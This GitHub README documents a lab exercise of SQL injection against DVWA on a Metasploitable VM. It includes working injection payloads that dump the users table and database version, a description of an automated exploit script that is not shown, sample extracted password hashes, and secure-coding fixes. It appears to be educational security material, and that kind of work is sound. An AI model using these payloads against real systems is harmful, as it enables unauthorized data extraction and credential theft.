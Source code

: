 # SQL Injection Demonstration on DVWA - Metasploitable Target

**Author:** NyxTheDark  
**GitHub:** [https://github.com/NyxTheDark](https://github.com/NyxTheDark)  
**Target:** Metasploitable VM (192.168.29.215)  
**Attacker:** Kali Linux  

## Overview

This project demonstrates SQL injection vulnerabilities using the Damn Vulnerable Web Application (DVWA) running on a Metasploitable virtual machine. The demonstration showcases how SQL injection attacks work in a controlled penetration testing environment using Kali Linux as the attacking platform.

## 📸 Visual Demonstration

### Lab Environment Setup

![Metasploitable VM](screenshots/01_metasploitable_vm.png)
*Metasploitable VM running and configured*

![Kali Linux Setup](screenshots/02_kali_linux_setup.png)
*Kali Linux penetration testing environment*

![Network Connectivity](screenshots/03_network_connectivity.png)
*Network connectivity test from Kali to Metasploitable*

### DVWA Access and Configuration

![DVWA Login](screenshots/04_dvwa_login.png)
*DVWA login page on Metasploitable (192.168.29.215)*

![Security Settings](screenshots/05_security_settings.png)
*DVWA security level configured to "Low"*

### SQL Injection Attack Demonstration

![SQL Injection Page](screenshots/06_sql_injection_page.png)
*DVWA SQL Injection vulnerability testing interface*

![Basic Injection Test](screenshots/07_basic_injection_test.png)
*SQL injection attack demonstration with results*

## 🔍 Attack Demonstration

### Target Environment
- **Target:** Metasploitable VM (192.168.29.215)
- **Application:** DVWA (Damn Vulnerable Web Application)
- **Vulnerability:** SQL Injection in User ID parameter
- **Security Level:** Low (no input validation)

### Attack Vectors Demonstrated

1. **Boolean-based SQL Injection**
   ```sql
   1' OR '1'='1
   ```
   - Bypasses authentication logic
   - Returns all user records instead of just one

2. **UNION-based SQL Injection**
   ```sql
   1' UNION SELECT user,password FROM users --
   ```
   - Extracts sensitive data from the database
   - Reveals usernames and password hashes

3. **Database Information Extraction**
   ```sql
   1' UNION SELECT version(),database() --
   ```
   - Reveals database version and name
   - Helps with further exploitation planning

## 🤖 Automated Exploitation

### Running the Exploit Script

The included `sql_injection_exploit.sh` script automates the SQL injection process:

```bash
# Make the script executable
chmod +x sql_injection_exploit.sh

# Run the automated exploit
./sql_injection_exploit.sh
```

### Script Features
- Automated login to DVWA
- Multiple SQL injection payload testing
- Database enumeration
- User credential extraction
- Results logging and reporting

## 📊 Results and Impact

### Vulnerability Impact
The SQL injection vulnerability allows attackers to:
- **Bypass authentication** mechanisms
- **Extract sensitive data** including user credentials
- **Enumerate database structure** and contents
- **Access unauthorized information**

### Extracted Data Example
```
Database: dvwa
User Credentials Extracted:
- admin: 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
- gordonb: e99a18c428cb38d5f260853678922e03
- 1337: 8d3533d75ae2c3966d7e0d4fcc69216b
- pablo: 0d107d09f5bbe40cade3de5c71e9e9b7
- smithy: 5f4dcc3b5aa765d61d8327deb882cf99
```

## 🔒 Prevention

### Secure Coding Practices
1. **Use Parameterized Queries**
   ```php
   $stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
   $stmt->execute([$user_id]);
   ```

2. **Input Validation**
   ```php
   $id = filter_var($_GET['id'], FILTER_VALIDATE_INT);
   ```

3. **Escape Special Characters**
   ```php
   $id = mysqli_real_escape_string($connection, $_GET['id']);
   ```

## ⚠️ Legal and Ethical Notice

This demonstration is for **educational purposes only**. Only perform these tests on systems you own or have explicit permission to test. Always ensure compliance with local laws and regulations.

## 📁 Project Files

```
SQL Injection/
├── sql_injection_exploit.sh     # Automated exploitation script
├── README.md                     # This documentation
└── screenshots/                  # Visual proof of concept
    ├── 01_metasploitable_vm.png
    ├── 02_kali_linux_setup.png
    ├── 03_network_connectivity.png
    ├── 04_dvwa_login.png
    ├── 05_security_settings.png
    ├── 06_sql_injection_page.png
    └── 07_basic_injection_test.png
```

---

**Remember**: Use this knowledge responsibly and ethically. Always obtain proper authorization before testing security vulnerabilities.
